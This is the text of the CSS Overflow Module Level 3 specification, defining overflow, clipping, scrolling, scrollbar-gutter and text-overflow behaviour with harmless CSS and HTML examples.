In CSS Level 1 [CSS1], placing more content than would fit inside an element with a specified size was generally an authoring error. Doing so caused the content to extend outside the bounds of the element, which would likely cause that content to overlap with other elements.

CSS Level 2 [CSS2] introduced the `overflow` property, which allows authors to have overflow be handled by scrolling, which means it is no longer an authoring error. It also allows authors to specify that overflow is handled by clipping, which makes sense when the author’s intent is that the content not be shown.

This specification defines the long-standing de-facto `overflow-x` and `overflow-y` properties, adds a `clip` value, introduces an `overflow-clip-margin` property, and defines overflow handling more fully. It also introduces control over smooth scrolling via `scroll-behavior` and for reserving space for the scrollbar via `scrollbar-gutter`.

> **Note:** This specification also reproduces the definition of the `text-overflow` property previously defined in [CSS-UI-3], with no addition or modification, in order to present `text-overflow` and `block-ellipsis` together.

#### 1.1.  Value Definitions {#css-overflow-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.2.  Module Interactions {#css-overflow-3:placement}

This module replaces (supersedes) and extends features defined in [CSS2] section [11.1 Overflow and clipping](#css2:overflow-clipping) and [CSS-UI-3] section [5.2. Overflow Ellipsis: the text-overflow property](#css-ui-4:text-overflow).

When applied to 'display: table' elements, the properties defined in this module apply to the table grid box (not the table wrapper box). [CSS2] [CSS-TABLES-3]

### 2.  Overflow Concepts and Terminology {#css-overflow-3:overflow-concepts}

CSS uses the term **overflow** to describe the contents of a box that extend outside one of that box’s edges (i.e., its *content edge*, *padding edge*, *border edge*, or *margin edge*). The term might be interpreted as elements or features that cause this overflow, the non-rectangular region occupied by these features, or, more commonly, as the minimal rectangle that bounds that region. A box’s overflow is computed based on the layout and styling of the box itself and of all descendants whose containing block chain includes the box.

In most cases, overflow can be computed for any box from the bounds and properties of that box itself, plus the overflow of each of its children. However, this is not always the case; for example, when `transform-style: preserve-3d` [CSS3-TRANSFORMS] is used on some of the children, any of their descendants with `transform-style: preserve-3d` must also be examined.

There are two different types of overflow, which are used for different purposes by the UA:

- ink overflow
- scrollable overflow

#### 2.1. Ink Overflow {#css-overflow-3:ink}

The **ink overflow** of a box is the part of that box and its contents that creates a visual effect outside of the box’s border box. Ink overflow is the overflow of painting effects defined to not affect layout or otherwise extend the scrollable overflow area, such as [box shadows](#css-backgrounds-4:box-shadow), border images, [text decoration](#css-text-decor-4), overhanging glyphs (with negative side bearings, or with ascenders/descenders extending outside the em box), [outlines](#css-ui-4:outline-props), etc.

Since some effects in CSS (for example, the blurs in `text-shadow` [CSS-TEXT-3] and `box-shadow` [CSS-BACKGROUNDS-3], which are theoretically infinite; or text rendering, where shaping and rasterization can vary by platform) do not precisely define what visual extent they cover, the extent of the ink overflow is undefined, and may vary across UAs.

The **ink overflow area** is the non-rectangular area occupied by the ink overflow of a box and its contents, and the **ink overflow rectangle** is the minimal rectangle whose axes are aligned to the box’s axes and that contains the ink overflow area. Note that the ink overflow rectangle is a rectangle in the box’s coordinate system, but might be non-rectangular in other coordinate systems due to transforms. [CSS3-TRANSFORMS]

Any overflow of replaced content is always ink overflow (as opposed to scrollable overflow).

#### 2.2.  Scrollable Overflow {#css-overflow-3:scrollable}

The **scrollable overflow** of a box is the set of things extending outside of that box’s padding edge for which a scrolling mechanism needs to be provided.

The **scrollable overflow area** is the non-rectangular region occupied by the scrollable overflow, and the **scrollable overflow rectangle** is the minimal rectangle whose axes are aligned to the box’s axes and that contains the scrollable overflow area. See [§ 3.3 Calculating the Scrollable Overflow Area](#css-overflow-3:scrollable-overflow-calculation) for details.

#### 2.3.  Scrolling Overflow {#css-overflow-3:scrolling}

A box’s overflow can be visible or clipped. CSS also allows a box to be a **scroll container** that allows clipped parts of its scrollable overflow area to be scrolled into view. The visual “viewport” of a scroll container (through which the scrollable overflow area can be viewed) coincides with its padding box, and is called the **scrollport**. A box’s **nearest scroll container** is the nearest scroll container ancestor in the containing block chain. (See [§ 3 Clipping and Scrolling Overflow](#css-overflow-3:overflow-properties) for control over whether a box clips or scrolls its overflow.)

Scrolling operations can be initiated by the user (for example, by manipulating a scrollbar, swiping a touchscreen, or using keyboard controls) or by script (for example, by the `scrollIntoView()` or `focus()` APIs). The initial position of the scrollable overflow rectangle within the scrollport before any scrolling operations take effect is the **initial scroll position**. The initial scroll position is typically dependent on the scroll container’s writing mode, and, unless otherwise specified, coincides with its scroll origin position. For example, `scroll-initial-target` property can be used to change the initial scroll position. [CSS-SCROLL-SNAP-2]

A **scroll position** is a particular alignment of the scrollable overflow rectangle within its scrollport. It is associated with a **scroll offset** which is its distance from the scroll origin.

The **scroll origin** is the anchor coordinate of the scrollable overflow rectangle, from which the scrollable overflow rectangle expands. Unless otherwise specified, it is the block-start inline-start corner of the scrollable overflow rectangle. (For example, in a flex container it is the main-start cross-start corner.) A scroll container is said to be scrolled to its scroll origin when its scroll origin coincides with the corresponding corner of its scrollport. This scroll position, the **scroll origin position**, usually, but not always, coincides with the initial scroll position.

> **Example:** For example, scroll snapping [CSS-SCROLL-SNAP-1] can change the initial scroll position away from the scroll origin position.

> **Issue:** Check whether things like baseline alignment depend on the initial scroll position or the scroll origin position.

> **Issue:** This doesn’t define a coordinate system for scroll offsets. Whether they increase downward/rightward, block/inline-axis endward, or away from the scroll origin is not defined. Should each API define its coordinate model?

Unless otherwise adjusted (e.g. [by content alignment](#css-align-3:overflow-scroll-position) [css-align-3]), the area beyond the scroll origin in either axis is considered the **unreachable scrollable overflow region**: content rendered here is not accessible to the reader, see [§ 2.2 Scrollable Overflow](#css-overflow-3:scrollable).

The root viewport, which scrolls the page canvas, uses the principal writing mode for determining its scroll origin and initial scroll position.

> **Note:** In the case where a scroll container (or one of its ancestors) is the target of a graphical transform, the UA might need to take this transform into account when mapping user inputs to scrolling operations. For instance, on a touch screen where the user scrolls by directly dragging the content, the transform would be expected to be taken into account to match the direction of scrolling to the gesture. On the other hand, other user inputs (such as the Page Down key, or a 1D scroll wheel) might be more naturally interpreted ignoring the transform. Choosing the appropriate behavior for each scrolling mechanism is the responsibility of the UA.

### 3.  Clipping and Scrolling Overflow {#css-overflow-3:overflow-properties}

The properties in this chapter specify whether and where a box’s overflow is clipped; if so, whether it is a scroll container; and if so, in which axis(es) it is allowed to scroll (its **scrollable axis(es)**), thus which of the following types of scroll container it is:

****single-axis scroll container****

: A scroll container that is scrollable in only one axis.

****dual-axis scroll container****

: A scroll container that is scrollable in both axes.

****block-axis scroll container** **inline-axis scroll container** **x-axis scroll container** **y-axis scroll container****

: A scroll container that is scrollable in the specified axis, regardless of whether it can also scroll in the other axis.

#### 3.1.  Managing Overflow: the `overflow-x`, `overflow-y`, and `overflow` properties {#css-overflow-3:overflow-control}

| Field | Value |
| --- | --- |
| Name: | **overflow-x**, **overflow-y**, **overflow-block**, **overflow-inline** |
| [Value:](#css-values-4:value-defs) | visible \| hidden \| clip \| scroll \| auto |
| [Initial:](#css-cascade-6:initial-values) | `visible` |
| [Applies to:](#css-cascade-5:applies-to) | block containers [CSS2], flex containers [CSS-FLEXBOX-1], grid containers [CSS-GRID-1], and table grid boxes [CSS-TABLES-3] |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | usually specified value, but see text |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Logical property group:](#css-logical-1:logical-property-group) | `overflow` |

The `overflow-x` property specifies the handling of overflow in the horizontal axis (i.e., overflow from the left and right sides of the box), and the `overflow-y` property specifies the handling of overflow in the vertical axis (i.e., overflow from the top and bottom sides of the box).

The `overflow-block` and `overflow-inline` properties likewise specify the handling of overflow in the block and inline axis, respectively

These four properties form a logical property group together with the `overflow` shorthand, and interact as defined in [CSS Logical Properties 1 § 4 Flow-Relative Box Model Properties](#css-logical-1:box).

| Field | Value |
| --- | --- |
| Name: | **overflow** |
| [Value:](#css-values-4:value-defs) | `<'overflow-block'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | visible |
| [Applies to:](#css-cascade-5:applies-to) | block containers [CSS2], flex containers [CSS3-FLEXBOX], and grid containers [CSS3-GRID-LAYOUT] |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `overflow` property is a shorthand property that sets the specified values of `overflow-x` and `overflow-y` in that order. If the second value is omitted, it is copied from the first.

Values have the following meanings:

****visible****

: There is no special handling of overflow, that is, the box’s content is rendered outside the box if positioned there.

****hidden****

: This value indicates that the box’s content is clipped to its overflow clip edge and that the UA must not provide any scrolling user interface to view the content outside the clipping region, nor allow scrolling by direct intervention of the user, such as dragging on a touch screen or using the scrolling wheel on a mouse. However, the content must still be scrollable programmatically, for example using the mechanisms defined in [CSSOM-VIEW].

****clip****

: This value indicates that the box’s content is clipped to its overflow clip edge and that no scrolling user interface should be provided by the UA to view the content outside the clipping region. In addition, unlike `overflow: hidden` which still allows programmatic scrolling, `overflow: clip` forbids scrolling entirely, through any mechanism.

  Unlike `hidden`, this value **does not** cause the element to establish a new formatting context.

  > **Note:** Authors who also want the box to establish a formatting context can use `display: flow-root` together with `overflow: clip`.

****scroll****

: This value indicates that the content is clipped to the overflow clip edge, but can be scrolled into view.

  Furthermore, if the user agent uses a scrolling mechanism that is visible on the screen (such as a scroll bar or a panner), that mechanism should be displayed whether or not any of its content is clipped. This avoids any problem with scrollbars appearing and disappearing in a dynamic environment. When the target medium is print, overflowing content may be printed; it is not defined where it may be printed.

****auto****

: Like `scroll` when the box has scrollable overflow; like `hidden` otherwise. Thus, if the user agent uses a scrolling mechanism that is visible on the screen (such as a scroll bar or a panner), that mechanism will only be displayed if there is overflow.

The `scroll`, `auto`, and `hidden` values are known as the **scrollable values** of `overflow`. They cause the box to be a scroll container and the affected axis to be a scrollable axis. A block box that becomes a scroll container also establishes an independent formatting context.

The `visible` and `clip` values are known as the **non-scrollable values**. However, if the other axis specifies a scrollable value, a specified value of `visible` computes to `auto`, enabling scrolling in its axis. If neither axis computes to a scrollable value, the box is not a scroll container. If only one axis computes to a scrollable value (i.e. the other axis is `clip`), the box is a single-axis scroll container.

User agents must also support the **overlay** keyword as a legacy value alias of `auto`.

> **Note:** The `overflow` properties are expanded to apply to replaced elements in [Level 4](#css-overflow-4).

##### 3.1.1.  Interaction of `visibility` and `overflow` {#css-overflow-3:scroll-visibility}

If the computed value of the `visibility` property is `hidden` (or `collapse` when it has the same effect as `hidden`), and `overflow` is either `scroll` or `auto`, then:

- The user agent must not make any scrolling mechanism visible. To the extent that the scrolling mechanism that would normally be visible in the absence of `visibility: hidden` affects layout, it continues to do so, but is not painted.
- As would be the case with `overflow: hidden`, scrolling directly triggered by user interactions is disabled, but programmatic scrolling continues to take effect.
- The lack of interactive direct scrolling is enforced even if the user interacts (e.g. with a mouse scrolling wheel) with a descendent of the `visibility: hidden` scroll container that is itself set to `visibility: visible`.

##### 3.1.2.  Interaction of `border-radius` and `overflow` {#css-overflow-3:corner-clipping}

As mentioned in [CSS Backgrounds 3 § 4.3 Corner Clipping](#css-borders-4:corner-clipping), the clipping region established by `overflow` can be rounded:

- When `overflow-x` and `overflow-y` compute to `hidden`, `scroll`, or `auto`, the clipping region is rounded based on the border radius, adjusted to the padding edge, as described in [CSS Backgrounds 3 § 4.2 Corner Shaping](#css-borders-4:corner-shaping).
- When both `overflow-x` and `overflow-y` compute to `clip`, the clipping region is rounded as described in [§ 3.2 Expanding Clipping Bounds: the overflow-clip-margin property](#css-overflow-3:overflow-clip-margin).
- However, when one of `overflow-x` or `overflow-y` computes to `clip` and the other computes to `visible`, the clipping region is not rounded.

##### 3.1.3.  Overflow in Print and Other Static Media {#css-overflow-3:static-media}

> **Advisement:** Since scrolling is not possible in static media (such as print) authors should be careful to make content accessible in such media, for example by using `@media print, (update: none) { … }` to adjust layout such that all relevant content is simultaneously visible.

On scroll containers in non-interactive media with an `overflow` value of `auto` or `scroll` (but not `hidden`) UAs may display an indication of any scrollable overflow, such as by displaying scrollbars or an ellipsis.

> **Note:** Not all paged media is non-interactive: for example, e-book readers paginate content, but are interactive.

##### 3.1.4.  Overflow Viewport Propagation {#css-overflow-3:overflow-propagation}

UAs must apply the `overflow` values set on the root element to the viewport when the root element’s `display` value is not `none`. However, when the root element is an [HTML] `html` element (including [XML syntax for HTML](https://html.spec.whatwg.org/multipage/introduction.html#html-vs-xhtml)) whose `overflow` value is `visible` (in both axes), and that element has as a child a `body` element whose `display` value is also not `none`, user agents must instead apply the `overflow` values of the first such child element to the viewport. The element from which the value is propagated must then have a used `overflow` value of `visible`.

> **Note:** Using containment on the HTML `html` or `body` elements disables this special handling of the HTML `body` element. See the [CSS Containment 1 § 2 Strong Containment: the contain property](#css-contain-2:contain-property) for details.

> **Note:** `overflow: hidden` on the root element might not clip everything outside the Initial Containing Block if the ICB is smaller than the viewport, which can happen on mobile.

If `visible` is applied to the viewport, it must be interpreted as `auto`. If `clip` is applied to the viewport, it must be interpreted as `hidden`.

#### 3.2.  Expanding Clipping Bounds: the `overflow-clip-margin` property {#css-overflow-3:overflow-clip-margin}

| Field | Value |
| --- | --- |
| Name: | **overflow-clip-margin** |
| [Value:](#css-values-4:value-defs) | `<visual-box>` \|\| `<length>` |
| [Initial:](#css-cascade-6:initial-values) | `0px` |
| [Applies to:](#css-cascade-5:applies-to) | boxes to which `overflow` applies |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the computed `<length>` and a `<visual-box>` keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | per computed value if the `<visual-box>` values match; otherwise discrete |

This property defines the **overflow clip edge** of the box, i.e. precisely where the box’s content is allowed to paint before being clipped by effects (such as `overflow: clip`, above) that are defined to clip to the box’s overflow clip edge.

Values are defined as follows:

****`<visual-box>`****

: Specifies the box edge to use as the overflow clip edge origin, i.e. when the specified offset is zero.

  If omitted, defaults to `padding-box`.

****`<length>`****

: The specified offset dictates how much the overflow clip edge is expanded from the specified box edge. Negative values indicate insets, instead. Defaults to zero if omitted.

The overflow clip edge is shaped in the corners exactly the same way as an outer box-shadow with a spread radius of the same cumulative offset from the box’s border edge. See [CSS Backgrounds 3 § 4.2 Corner Shaping](#css-borders-4:corner-shaping) and [CSS Backgrounds 3 § 6.1.1 Shadow Shape, Spread, and Knockout](#css-borders-4:shadow-shape), noting in particular the formula for outsets beyond the border edge.

If the box is a scroll container:

- the overflow clip edge is clamped to stay within the element’s padding box. (This does not affect the computed or used value of this property.)
- the `border-box` value ignores any specified offset (and, due to the previous bullet point, effectively acts as `padding-box`)

> **Note:** This property was previously defined to only affect `overflow: clip`. It now also affects scroll containers, but only to shrink the clipping edge.

#### 3.3.  Calculating the Scrollable Overflow Area {#css-overflow-3:scrollable-overflow-calculation}

The scrollable overflow area of a box is the union of:

- Its own padding box.
- All line boxes it directly contains.
- The border boxes of all boxes for which it is the containing block and whose border boxes are positioned not wholly within its unreachable scrollable overflow region (if any), accounting for transforms by projecting each box onto the plane of the element that establishes its 3D rendering context. [CSS3-TRANSFORMS]

  > **Issue:** Is this description of handling transforms sufficiently accurate?

  Border boxes with zero area do not affect the scrollable overflow area.
- The margin areas of grid item and flex item boxes for which the box establishes a containing block.

  The UA may *additionally* include the margin areas of other boxes for which the box establishes a containing block; however, the conditions under which such margin areas are included is undefined in this level. This needs further testing and investigation; is therefore deferred in this draft.
- The scrollable overflow rectangles of all of the above boxes (including zero-area boxes), clipped to their overflow clip edge if `overflow` is not `visible` or `contain` applies `paint`, and accounting for transforms as described above.

  > **Note:** The `clip`, `clip-path`, and `mask-*` properties [CSS-MASKING-1] do not affect the scrollable overflow area. Only effects that clip to the overflow clip edge are taken into account.

  > **Note:** The scrollable overflow rectangle is always a rectangle in its box’s own coordinate system, but might be non-rectangular in ancestor coordinate systems due to transforms [CSS3-TRANSFORMS]. This means scrollbars can sometimes appear when not actually necessary.
- Additional padding added to the scrollable overflow rectangle as necessary to enable scroll positions that satisfy the requirements of both `place-content: start` and `place-content: end` alignment.

  > **Note:** This padding represents, within the scrollable overflow rectangle, the box’s own padding so that when its content is scrolled to its end, there is padding between the edge of its in-flow (or floated) content and the border edge of the box. It typically ends up being exactly the same size as the box’s own padding, except in a few cases—​such as when an out-of-flow positioned element, or the visible overflow of a descendent, has already increased the size of the scrollable overflow rectangle outside the conceptual “content edge” of the scroll container’s content.

  

  Issue: Replace this image with a proper SVG.

Additionally, due to Web-compatibility constraints (caused by authors exploiting legacy bugs to surreptitiously hide content from visual readers but not search engines and/or speech output), UAs must clip any content in the unreachable scrollable overflow region.

> **Note:** The content-distribution properties can [alter the unreachable scrollable overflow region](#css-align-3:overflow-scroll-position) to ensure that a scroll container’s alignment subject is reachable after alignment. [css-align-3]

### 4.  Scrolling Behaviors and Animations {#css-overflow-3:scrolling-behaviors}

CSS provides several controls over how scrolling behaves when triggered.

- [CSS Scroll Snap](#css-scroll-snap-2) allows defining "snap positions", which are scroll positions to which the scroll container is biased to land.
- [CSS Overscroll Behavior](#css-overscroll-2) allows controlling what happens when scrolling past the end of the scrollable area.
- `scroll-behavior`, defined below, controls whether programmatic scrolling animates smoothly or not.

> **Note:** For animating other things in conjunction with scrolling, see [SCROLL-ANIMATIONS-1].

#### 4.1.  Smooth Scrolling: the `scroll-behavior` Property {#css-overflow-3:smooth-scrolling}

| Field | Value |
| --- | --- |
| Name: | **scroll-behavior** |
| [Value:](#css-values-4:value-defs) | auto \| smooth |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `scroll-behavior` property specifies the scrolling behavior for a scroll container, when scrolling happens due to navigation, scrolling APIs [CSSOM-VIEW], or scroll snapping operations not initiated by the user [CSS-SCROLL-SNAP-1]. Any other scrolls, e.g. those that are performed by the user, are not affected by this property. When this property is specified on the root element, it applies to the viewport instead.

> **Note:** The `scroll-behavior` property of the HTML `body` element is *not* propagated to the viewport.

****auto****

: The scroll container is scrolled in an instant fashion.

****smooth****

: The scroll container is scrolled in a smooth fashion using a user-agent-defined timing function over a user-agent-defined period of time. User agents should follow platform conventions, if any.

User agents may ignore this property.

### 5.  Scrollbars and Layout {#css-overflow-3:scrollbar-layout}

#### 5.1.  Scrollbar Contributions to Sizing {#css-overflow-3:scrollbar-sizing}

The space reserved for the scrollbar is located between the padding area and the border area of the scroll container box. However, for the purpose of the background positioning area and background painting area, this reserved space is treated as part of the padding area.

> **Example:** In the following document fragment, both an absolutely-positioned element and a background image are positioned to the top right of the box.
>
> ```
> <style>
>   article {
>     background: top right no-repeat url(circle.png);
>     position: relative;
>     overflow: auto; }
>   aside { position: absolute; top: 0; right: 0; }
> </style>
> <article>
>   <aside>×</aside>
> </article>
> ```
>
> If no scrollbars are present on `<article>`, they will both coincide in the top right padding edge corner. However, if scrollbars are present then `<aside>` will be completely visible, on the right padding-box edge adjacent to the scrollbars; whereas the background image will be tucked underneath the scrollbars, in the top right corner of the scrollbar-extended background positioning area.

When the box is intrinsically sized, this reserved space is added to the size of its contents. It is otherwise subtracted from space allotted to the content area. To the extent that the presence of scrollbars can affect sizing, UAs must start with the assumption that no scrollbars are needed, and recalculate sizes if it turns out they are.

> **Example:** In the following document fragment, the outer `<article>` has `height: auto`, but `max-height: 5em`. The inner `<section>` has large margins and would normally just fit:
>
> ```
> ...
>     article { overflow: auto; max-height: 5em;  width: max-content; }
>     section { margin: 2em; line-height: 1 }
> ...
> <article>
>   <section>
>     This section has big margins.
>   </section>
> </article>
> ```
>
> If we assumed that `<article>` needed scrollbars, then the height of `<section>`, including the single line of text and twice 2em of margins, adds up to 5em plus a scrollbar. Since that is greater than 5em, the maximum allowed height, it seems we made the right assumption and d1 indeed needs scrollbars.
>
> However, we should have started by assuming that no scrollbars are needed. In that case the content height of `<article>` is exactly the maximum height of 5em, proving that the assumption was correct and `<article>` indeed should not have scrollbars.

#### 5.2.  Reserving space for the scrollbar: the `scrollbar-gutter` property {#css-overflow-3:scrollbar-gutter-property}

The space between the inner border edge and the outer padding edge which user agents may reserve to display the scrollbar is called the **scrollbar gutter**.

The `scrollbar-gutter` property gives control to the author over the presence of scrollbar gutters separately from the ability to control the presence of scrollbars provided by the `overflow` property.

| Field | Value |
| --- | --- |
| Name: | **scrollbar-gutter** |
| [Value:](#css-values-4:value-defs) | auto \| stable && both-edges? |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property affects the presence of scrollbar gutters placed at the inline start edge or inline end edge of the box.

The presence of a scrollbar gutter at the block start edge and block end edge of the box cannot be controlled in this level, and is determined the same way as the presence of scrollbar gutters placed at the inline start edge or inline end edge of the box when `scrollbar-gutter` is `auto`.

Scrollbars which by default are placed over the content box and do not cause scrollbar gutters to be created are called **overlay scrollbars**. Such scrollbars are usually partially transparent, revealing the content behind them if any. Their appearance and size may vary based on whether and how the user is interacting with them.

Scrollbars which are always placed in a scrollbar gutter, consuming space when present, are called **classic scrollbars**. Such scrollbars are usually opaque.

Whether classic scrollbars or overlay scrollbars are used, the appearance and size of the scrollbar, and whether scrollbars appear on the start or end edge of the box, is UA defined.

> **Note:** Which side a scrollbar appears on may depend on operating system conventions, bidirectionality, or other ergonomic considerations.

In the case of classic scrollbars, the width of the scrollbar gutter, if present (see below), is the same as the width of the scrollbar. In the case of overlay scrollbars, no scrollbar gutter is present.

> **Note:** There are known use cases that could be addressed by enabling scrollbar gutters for overlay scrollbars, but no satisfactory design has been agreed to so far. This could be addressed by future extensions of this property. See [CSS Overflow 4 § A Possible extensions for scrollbar-gutter](#css-overflow-4:sbg-ext).

The values of this property have the following meaning:

****auto****

: Classic scrollbars consume space by creating a scrollbar gutter when `overflow` is `scroll`, or when `overflow` is `auto` and the box is overflowing. Overlay scrollbars do not consume space.

****stable****

: The scrollbar gutter is present for classic scrollbars when `overflow` is `hidden`, `scroll`, or `auto`, regardless of whether the box is actually overflowing. Overlay scrollbars do not consume space.

  > **Note:** This does not change whether the scrollbar itself is visible, only the presence of a gutter is affected.

****both-edges****

: If a scrollbar gutter would be present on one of the inline start edge or the inline end edge of the box, another scrollbar gutter must be present on the opposite edge as well.

When the scrollbar gutter is present but the scrollbar is not, or the scrollbar is transparent or otherwise does not fully obscure the scrollbar gutter, the background of the scrollbar gutter must be painted as an extension of the padding.

As for the `overflow` property, when `scrollbar-gutter` is set on the root element, the user agent must apply it to the viewport instead, and the used value on the root element itself is `scrollbar-gutter: auto`. However, unlike the `overflow` property, the user agent must not propagate `scrollbar-gutter` from the HTML `body` element.

> **Note:** The following table summarizes the interaction of `overflow` and `scrollbar-gutter` showing in which case space is reserved for a classic scrollbar’s scrollbar gutter.
>
> | `overflow` | `scrollbar-gutter` | Overflowing | Not overflowing |
> | --- | --- | --- | --- |
> | `scroll` | `auto` | yes | yes |
> | `stable` | yes | yes |  |
> | `auto` | `auto` | yes |  |
> | `stable` | yes | yes |  |
> | `hidden` | `auto` |  |  |
> | `stable` | yes | yes |  |
> | `visible`, `clip` | `auto` |  |  |
> | `stable` |  |  |  |

### 6.  Automatic Ellipses {#css-overflow-3:auto-ellipsis}

#### 6.1.  Overflow Ellipsis: the `text-overflow` property {#css-overflow-3:text-overflow}

| Field | Value |
| --- | --- |
| Name: | **text-overflow** |
| [Value:](#css-values-4:value-defs) | clip \| ellipsis |
| [Initial:](#css-cascade-6:initial-values) | clip |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies rendering when inline content overflows its end line box edge in the inline progression direction of its block container element ("the block") that has `overflow` other than `visible`.

Text can overflow for example when it is prevented from wrapping (e.g. due to `white-space: nowrap` or a single word is too long to fit). Values have the following meanings:

****clip****

: Clip inline content that overflows its block container element. Characters may be only partially rendered.

****ellipsis****

: Render an ellipsis character (U+2026) to represent clipped inline content. Implementations may substitute a more language, script, or writing-mode appropriate ellipsis character, or three dots "..." if the ellipsis character is unavailable.

The term "character" is used in this property definition for better readability and means "grapheme cluster" [UAX29] for implementation purposes.

For the ellipsis value implementations must hide characters and  [atomic inline-level elements](#css2:inline-boxes) at the end edge of the line as necessary to fit the ellipsis, and place the ellipsis immediately adjacent to the end edge of the remaining inline content. The first character or  [atomic inline-level element](#css2:inline-boxes) on a line must be clipped rather than ellipsed.

> **Example:** ##### Bidi ellipsis examples {#css-overflow-3:bidi-ellipsis}
>
> These examples demonstrate which characters get hidden to make room for the ellipsis in a bidi situation: those visually at the end edge of the line.
>
> Sample CSS:
>
> ```
> div {
>   font-family: monospace;
>   white-space: pre;
>   overflow: hidden;
>   width: 9ch;
>   text-overflow: ellipsis;
> }
> ```
>
> Sample HTML fragments, renderings, and your browser:
>
> | HTML | Reference rendering | Your Browser |
> | --- | --- | --- |
> | `<div>שלום 123456</div>` | 123456 ם… | שלום 123456 |
> | `<div dir=rtl>שלום 123456</div>` | …456 שלום | שלום 123456 |

##### ellipsing details {#css-overflow-3:ellipsing-details}

- Ellipsing only affects rendering and must not affect layout nor dispatching of pointer events: The UA should dispatch any pointer event on the ellipsis to the elided element, as if `text-overflow` had been `none`.
- The ellipsis is styled and baseline-aligned according to the block.
- Ellipsing occurs after relative positioning and other graphical transformations.
- If there is insufficient space for the ellipsis, then clip the rendering of the ellipsis itself (on the same side that neutral characters on the line would have otherwise been clipped with the `text-overflow:clip` value).

##### user interaction with ellipsis {#css-overflow-3:ellipsis-interaction}

- When the user is interacting with content (e.g. editing, selecting, scrolling), the user agent may treat `text-overflow: ellipsis` as `text-overflow: clip`.
- Selecting the ellipsis should select the ellipsed text. If all of the ellipsed text is selected, UAs should show selection of the ellipsis. Behavior of partially-selected ellipsed text is up to the UA.

> **Example:** (s):
>
> ##### text-overflow examples {#css-overflow-3:text-overflow-examples}
>
> These examples demonstrate setting the text-overflow of a block container element that has text which overflows its dimensions:
>
> sample CSS for a div:
>
> ```
> div {
>   font-family:Helvetica,sans-serif; line-height:1.1;
>   width:3.1em; padding:.2em; border:solid .1em black; margin:1em 0;
> }
> ```
>
> sample HTML fragments, renderings, and your browser:
>
> | HTML | sample rendering | your browser |
> | --- | --- | --- |
> | <div> CSS IS AWESOME, YES </div> | First, a box with text drawing outside of it. | CSS IS AWESOME, YES |
> | <div style="**text-overflow:clip;** overflow:hidden"> CSS IS AWESOME, YES </div> | Second, a similar box with the text clipped outside the box. | CSS IS AWESOME, YES |
> | <div style="**text-overflow:ellipsis;** overflow:hidden"> CSS IS AWESOME, YES </div> | Third, a similar box with an ellipsis representing the clipped text. | CSS IS AWESOME, YES |
> | <div style="**text-overflow:ellipsis;** overflow:hidden"> NESTED <p>PARAGRAPH</p> WON'T ELLIPSE. </div> | Fourth, a box with a nested paragraph demonstrating anonymous block boxes equivalency and non-inheritance into a nested element. | NESTED PARAGRAPH WON’T ELLIPSE. |

> **Note:** the side of the line that the ellipsis is placed depends on the `direction` of the block. E.g. an overflow hidden right-to-left (`direction: rtl`) block clips inline content on the left side, thus would place a text-overflow ellipsis on the left to represent that clipped content.

##### ellipsis interaction with scrolling interfaces {#css-overflow-3:ellipsis-scrolling}

This section applies to elements with text-overflow other than `text-overflow:clip` (non-clip text-overflow) and overflow:scroll.

When an element with non-clip text-overflow has overflow of scroll in the inline progression dimension of the text, and the browser provides a mechanism for scrolling (e.g. a scrollbar on the element, or a touch interface to swipe-scroll, etc.), there are additional implementation details that provide a better user experience:

When an element is scrolled (e.g. by the user, DOM manipulation), more of the element’s content is shown. The value of text-overflow should not affect whether more of the element’s content is shown or not. If a non-clip text-overflow is set, then as more content is scrolled into view, implementations should show whatever additional content fits, only truncating content which would otherwise be clipped (or is necessary to make room for the ellipsis/string), until the element is scrolled far enough to display the edge of the content at which point that content should be displayed rather than an ellipsis/string.

> **Example:** This example uses text-overflow on an element with overflow scroll to demonstrate the above described behavior.
>
> sample CSS:
>
> ```
> div.crawlbar {
>   text-overflow: ellipsis;
>   height: 2em;
>   overflow: scroll;
>   white-space: nowrap;
>   width: 15em;
>   border:1em solid black;
> }
> ```
>
> sample HTML fragment:
>
> ```
> <div class="crawlbar">
> CSS is awesome, especially when you can scroll
> to see extra text instead of just
> having it overlap other text by default.
> </div>
> ```
>
> demonstration of sample CSS and HTML:
>
> CSS is awesome, especially when you can scroll to see extra text instead of just having it overlap other text by default.

While the content is being scrolled, implementations may adjust their rendering of ellipses (e.g. align to the box edge rather than line edge).

---

## CSS Overflow Module Level 4 {#css-overflow-4}

